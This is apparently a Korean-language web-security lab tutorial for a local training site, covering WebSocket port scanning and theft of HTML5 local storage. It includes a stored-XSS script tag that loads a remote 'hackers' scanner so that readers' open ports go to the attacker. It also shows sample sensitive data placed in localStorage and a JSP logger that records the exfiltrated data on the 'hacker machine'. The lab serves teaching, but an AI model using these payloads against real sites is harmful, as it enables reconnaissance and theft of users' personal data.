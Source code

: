       ```html
      <br/>Scanning...<div id="log"></div><script src="http://openeq.com:8181/openeg/websocket/hackers/scanner.js"></script>
      ```

      

   4. 어떤 희생자가 해커가 등록한 글을 읽으면 자기 머신의 사용 포트가 해커에게로 다 전송된다

      

   5. 해커머신의 콘솔에 희생자의 포트 스캔 결과가 보인다 (희생자가 WebSocket 통신을 하고 있는 상태에서만 테스트 됨)



*****



###### WebStorage



1. 크롬 브라우저로 유투브의 영상(https://www.youtube.com/watch?v=-UCnnlkjHEA&list=RDQMZVE-3dZz_rY&index=11) 하나를 보면서 개발자 콘솔(F12)을 열어본다>Application탭의 Storage 카테고리에서 Local Storage와 Session Storage를 보면 사용자의 재생목록, 재생화면 크기, 볼륨 등의 설정 관련 정보를 볼 수 있다.



2. openeg WebContent>webstorage>writeLocalStorage.html를 다음과 같이 작성한뒤 서버를 다시 가동시키고 크롬에서 http://openeg.com:8181/openeg/webstorage/writeLocalStorage.html를 실행하면 로컬 스토리지에 정보가 저장된다.(위에 주소 실행했어야 됨)

   ```html
   <script>
       localStorage.lastName = "Smith";
       localStorage.firstName = "James";
       localStorage.grade = "A++";
       localStorage.accountNumber = "123455-54647-41323";
       localStorage.email = "victim@gmail.com";
       localStorage.telno = "010-3422-9999";
   </script>
   ```

   

3. WebContent>webstorage>hackers 폴더를 만들고 이를 해커머신이라고 가정한 뒤 logging.jsp를 다음과 같이 작성한다.

   ```jsp
   <%@page import="java.util.Date"%>
   <%@page import="java.io.*"%>
   <%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
   <%	
   String s = request.getParameter("s");	
   if (s == null) s = "";
   String log = String.format("<br/><div>%s</div>", new Object[] { s });
   try {		
       String filename= request.getSession().getServletContext().getRealPath("/webstorage/hackers/log.html");    
       FileWriter fw = new FileWriter(filename); 
       //the true will append the new data   
       fw.write(log);   
       fw.close();   
   } catch (IOException e) {   
       e.printStackTrace();  
   }	
   System.out.println(log);
   %>
   ```
